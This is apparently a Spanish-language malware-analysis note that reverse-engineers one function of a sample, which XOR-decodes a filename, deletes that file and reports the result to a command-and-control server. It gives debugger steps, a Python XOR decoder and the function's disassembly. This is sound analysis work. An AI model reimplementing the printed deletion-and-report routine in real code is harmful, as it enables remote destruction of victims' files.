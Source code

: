 
**Propósito principal: Eliminar un archivo remoto y reportar el resultado al C2.**
 
Esta función:
- Recibe un nombre de archivo ofuscado.
- Lo descifra (XOR 0x55).
- Intenta eliminarlo con DeleteFileA.
- Notifica el éxito o el fallo al servidor remoto, probablemente parte del panel de control del atacante.



PARA saber cual es el nombre del archivo que quiere borrar con ANÁLISIS DINÁMICO
- Pon un breakpoint en FUN_004020a0:
- Por ejemplo, si sabes la dirección exacta (como 004020a0), puedes poner un BP ahí directamente.
- Cuando se detenga, inspecciona el segundo argumento (param_2):
    - Estará en [ESP+8], ya que es cdecl.
    - Mira el contenido del buffer:
    - Usa la vista de memoria: ve a la dirección almacenada en [ESP+8].

- Aplica manualmente XOR 0x55 a los bytes para descifrar el string.

- Puedes usar un script o incluso x32dbg te permite ver y copiar los datos para descifrarlos con Python, por ejemplo:
```
data = bytearray([0xAB, 0xCD, 0xEF, ...])  # bytes desde el dump
decoded = bytes([b ^ 0x55 for b in data])
print(decoded.decode(errors="ignore"))
```

Creamos un archivo prueba.txt en el escritorio que es el que se va a intentar borrar:

![opcode4](../analisis-dinamico/capturas/opcode4.png)

![opcode4-1](../analisis-dinamico/capturas/opcode4-escucha.png)


```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020a0(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     004020a0(R)  
                             FUN_004020a0                                    XREF[1]:     FUN_004012f0:0040175b(c)  
        004020a0 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        004020a4 33 c0           XOR        EAX,EAX
                             LAB_004020a6                                    XREF[1]:     004020b5(j)  
        004020a6 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        004020a9 80 f2 55        XOR        DL,0x55
        004020ac 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        004020af 40              INC        EAX
        004020b0 3d 00 01        CMP        EAX,0x100
                 00 00
        004020b5 7c ef           JL         LAB_004020a6
        004020b7 51              PUSH       ECX
        004020b8 ff 15 34        CALL       dword ptr [->KERNEL32.DLL::DeleteFileA]          = 00009914
                 90 40 00
        004020be 85 c0           TEST       EAX,EAX
        004020c0 6a 00           PUSH       0x0
        004020c2 6a 02           PUSH       0x2
        004020c4 74 11           JZ         LAB_004020d7
        004020c6 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        004020ca 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        004020cf 50              PUSH       EAX
        004020d0 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020d6 c3              RET
                             LAB_004020d7                                    XREF[1]:     004020c4(j)  
        004020d7 8b 4c 24 0c     MOV        ECX,dword ptr [ESP + 0xc]
        004020db 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        004020e0 51              PUSH       ECX
        004020e1 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020e7 c3              RET

```
